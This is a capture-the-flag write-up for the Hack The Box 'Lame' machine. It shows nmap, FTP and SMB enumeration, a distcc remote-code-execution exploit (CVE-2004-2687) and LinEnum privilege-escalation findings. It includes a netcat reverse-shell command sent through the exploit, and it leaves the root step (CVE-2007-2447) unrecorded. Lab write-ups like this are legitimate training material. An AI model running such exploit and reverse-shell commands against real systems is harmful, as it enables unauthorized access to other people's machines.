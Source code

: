 Box: Linux
Level: Easy
### Index
1. [Box Info](#Box%20Info)
2. [Initial Nmap Scan](#Initial%20Nmap%20Scan)
3. [FTP Enumeration](#FTP%20Enumeration)
4. [SMB Enumeration](#SMB%20Enumeration)
5. [DistcCC Daemon Exploit (CVE-2004-2687)](#DistcCC%20Daemon%20Exploit%20(CVE-2004-2687))
	1. [`User Flag`](#`User%20Flag`)
6. [Privilege Escalation](#Privilege%20Escalation)
	1. [`LinEnum Findings`](#`LinEnum%20Findings`)
### Box Info
```
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
```

### Initial Nmap Scan
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn lame.htb                                                                               
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -15m45s, deviation: 2h49m43s, median: -2h15m46s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-09-21T22:35:12-04:00
```

### FTP Enumeration
Getting Anonymous access reveals nothing.
```
# ftp anonymous@10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
226 Directory send OK.
................Along with this I tried few other commands as well and nothing was listing anything..................
ftp> put test.txt 
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||15394|).
553 Could not create file.
# No Write Access With anonymous user.
```

### SMB Enumeration
```
# smbmap  -H 10.10.10.3
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          

[+] IP: 10.10.10.3:445  Name: lame.htb                  Status: Authenticated
	Disk                                                    Permissions     Comment
	----                                                    -----------     -------
	print$                                                  NO ACCESS       Printer Drivers
	tmp                                                     READ, WRITE     oh noes!
	opt                                                     NO ACCESS
	IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
[*] Closed 1 connections                                                                                                     
```

We have READ/WRITE access on tmp share. Trying to push files on tmp but nothing happened.
### DistcCC Daemon Exploit (CVE-2004-2687)
`Use Python2 to run the exploit.` [CVE-2004-2687](https://github.com/angelpimentell/distcc_cve_2004-2687_exploit) Make sure to start the Listener on `Port 4444`
```
# python2 distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.8 4444 -e /bin/sh"
[OK] Connected to remote service
```
###### `User Flag`
```
daemon@lame:/home/makis$ cat user.txt
c80877d******************************
```

### Privilege Escalation 

###### `LinEnum Findings`
```
[-] Kernel information:
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
Linux version 2.6.24-16-server (buildd@palmer) (gcc version 4.2.3 (Ubuntu 4.2.3-2ubuntu7)) #1 SMP Thu Apr 10 13:58:00 UTC 2008

[-] Specific release information:
DISTRIB_DESCRIPTION="Ubuntu 8.04"

[+] We can sudo without supplying a password!
usage: sudo -h | -K | -k | -L | -l | -V | -v
usage: sudo [-bEHPS] [-p prompt] [-u username|#uid] [VAR=value]
            {-i | -s | <command>}
usage: sudo -e [-S] [-p prompt] [-u username|#uid] file ...

[+] Possible sudo pwnage!
file

[-] Accounts that have recently used sudo:
/home/makis/.sudo_as_admin_successful

[+] We can read root's home directory!
lrwxrwxrwx  1 root root    9 May 14  2012 .bash_history -> /dev/null
-rw-------  1 root root   33 Sep 21 22:29 root.txt
-rwx------  1 root root  401 May 20  2012 reset_logs.sh

[-] Sudo version:
Sudo version 1.6.9p10

[-] MYSQL version:
mysql  Ver 14.12 Distrib 5.0.51a, for debian-linux-gnu (i486) using readline 5.2

[+] We can connect to the local MYSQL service as 'root' and without a password!
mysqladmin  Ver 8.41 Distrib 5.0.51a, for debian-linux-gnu on i486
Copyright (C) 2000-2006 MySQL AB
This software comes with ABSOLUTELY NO WARRANTY. This is free software,
and you are welcome to modify and redistribute it under the GPL license

Server version          5.0.51a-3ubuntu5
Protocol version        10
Connection              Localhost via UNIX socket
UNIX socket             /var/run/mysqld/mysqld.sock
Uptime:                 2 hours 32 min 3 sec

Threads: 1  Questions: 438  Slow queries: 0  Opens: 419  Flush tables: 1  Open tables: 64  Queries per second avg: 0.048

[+] Possibly interesting SUID files:
-rwsr-xr-- 1 root dhcp 2960 Apr  2  2008 /lib/dhcp3-client/call-dhclient-script
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```

###### `CVE-2007-2447`

This exploit was directly got me the root flag. But forgot to record it here.
